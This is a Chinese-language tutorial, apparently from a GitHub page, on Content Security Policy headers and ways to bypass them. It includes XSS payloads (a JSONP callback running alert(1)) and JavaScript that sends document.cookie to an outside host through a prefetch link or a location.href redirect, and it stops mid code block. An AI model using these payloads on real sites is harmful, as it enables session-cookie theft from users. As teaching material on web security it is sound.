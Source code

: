 Auditor reference:  
* Source code  
[xss_auditor.h](https://cs.chromium.org/chromium/src/third_party/blink/renderer/core/html/parser/xss_auditor.h)  
[xss_auditor_delegate.h](https://cs.chromium.org/chromium/src/third_party/blink/renderer/core/html/parser/xss_auditor_delegate.h)

# CSP Intro and bypass
從瀏覽器的層面來防禦漏洞[Content Security Policy Level 3](https://www.w3.org/TR/CSP/)  
主要有兩種 1. 限制`js`執行 2. 限制對別的域的請求  
怎麼看一個網站的CSP呢？  
```php
curl -I https://github.com/
// 列出header
// 我們可以看到github已經開啟了XSS-Protection
// 並且也能看到CSP的內容
Content-Security-Policy: default-src 'none'; base-uri 'self'; block-all-mixed-content; connect-src 'self' uploads.github.com status.github.com collector.githubapp.com api.github.com www.google-analytics.com github-cloud.s3.amazonaws.com github-production-repository-file-5c1aeb.s3.amazonaws.com github-production-upload-manifest-file-7fdce7.s3.amazonaws.com github-production-user-asset-6210df.s3.amazonaws.com wss://live.github.com; font-src assets-cdn.github.com; form-action 'self' github.com gist.github.com; frame-ancestors 'none'; frame-src render.githubusercontent.com; img-src 'self' data: assets-cdn.github.com identicons.github.com collector.githubapp.com github-cloud.s3.amazonaws.com *.githubusercontent.com; manifest-src 'self'; media-src 'none'; script-src assets-cdn.github.com; style-src 'unsafe-inline' assets-cdn.github.com
```
現在開始解讀CSP  
```php
header("Content-Security-Policy: default-src 'self '; script-src * ");
```
以上CSP歡迎您加載任何domain的js :-1: ，此外會禁止加載domain外的source
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");
```
以上CSP只能讓您加載當前domain下的js，尋找後台上傳內容為js的圖片或文件，`src=upload/1pwnch.js`
```php
header(" Content-Security-Policy: default-src 'self '; script-src http://localhost/static/ ");
Content-Security-Policy: script-src 'self' trusted.domain.com
```
以上第一例中CSP只能加載特定資料夾下的js，這時候可以尋找`static/`下有沒有可控的跳轉文件(302)，我們可以把這個文件當作跳板去加載我們上傳的js文件  
第二例中可以找trusted.domain.com中有沒有可以bypass的script，或者有沒有**jsonp**的利用點，如下：  
```php
<script src="trusted.domain.com/jsonp?callback=alert(1)//"></script>
```
除了jsonp，`Angularjs`也可被用來bypass，因此下面的`strict-dynamic`便顯得更加重要了  
來看看最常見的CSP  
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' ");
```
`unsafe-inline`指頁面中直接添加的`<script>`可以被執行，再來便是繞過domain的限制：  
  1. 用js製造link prefetch  
     [什麼是prefetch](https://developer.mozilla.org/zh-TW/docs/Web/HTTP/Link_prefetching_FAQ)  
     prefetch下面還有`DNS-prefetch`,`subresource`,`prefetch`,`preconnect`,`prerender`幾個概念  
     不是所有source都能預加載的，e.g. ajax，開啟developer tool的頁面    
     ```js
     // 只有chrome可用  
     var x = document.createElement("link");
     x.setAttribute("rel", "prefetch");
     x.setAttribute("href", "//xxxxx.com/?" + document.cookie);
     document.head.appendChild(x);
     ```
  2. 跳轉 && 跨域  
     跳轉的部分注意跳板也受host的限制，src路徑則跳脫限制  
     ```js
     <script>location.href='http://lorexxar.cn?a+document.cookie'</script>